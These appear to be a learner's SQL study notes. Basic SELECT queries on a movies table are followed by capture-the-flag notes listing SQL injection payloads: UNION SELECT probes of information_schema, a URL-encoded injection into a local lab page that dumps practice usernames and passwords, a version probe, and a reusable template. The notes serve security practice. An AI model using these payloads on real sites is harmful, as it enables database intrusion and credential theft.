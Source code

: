 SELECT Year, title FROM movies       finds the movies released between 2000 and 2010
WHERE Year >= 2000 AND Year <=2010;

SELECT Year, title FROM movies                   finds movies not between 2000 and 2010
WHERE Year NOT BETWEEN 2000 AND 2010 ;

SELECT Title, Year FROM movies             Find the first 5 Pixar movies and their release year 
 WHERE Year BETWEEN 1995 AND 2003;

SELECT Title FROM movies            finds all toy story movies
WHERE Title LIKE "Toy Story%";

SELECT * FROM movies                finds all movies by john lassester
WHERE Director = "John Lasseter";
  ## LIKE "%word%" is used t find a string in a word 
SELECT * FROM movies              finds all WALL-E movies
WHERE Title LIKE "WALL%";



## CTFs
#1 ' UNION SELECT table_schema,table_name FROM information_schema.columns #
column_name
#2 
' UNION SELECT table_schema,table_name FROM information_schema.columns #
sqlinjection	categories
sqlinjection	members
sqlinjection	orderlines
sqlinjection	orders
sqlinjection	payments
sqlinjection	permissions
sqlinjection	products
sqlinjection	share4


#3
http://127.0.0.1:11751/cases/productsCategory.php?category=1%20union%20select%20permission,username,password%20FROM%20sqlinjection.members
after category 1 do union select permission,username,password FROM sqlinjection.members you need 3 fields because it uses 3 fields 

Boss	BRJHlIX600KYqu6JHCpa	1.00
Maverick	turn&burn	3.00
phreak	pwd	4.00
Susan	flowers99	3.00
TW	imAPlaya	2.00
1-2-3-4	sayULuvM3	2.00
rich_kid	1M$	2.00
p0pStar	thrilla	2.00
Joe	vato

#4

#5 
' union select @@version #

#6
switch sqlinjection to payments table 

## golden statement
  ' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns #
      >use placeholders when we n eed more columns like numbers, also this is a baseline and will help set up and carry the rest of the injections 
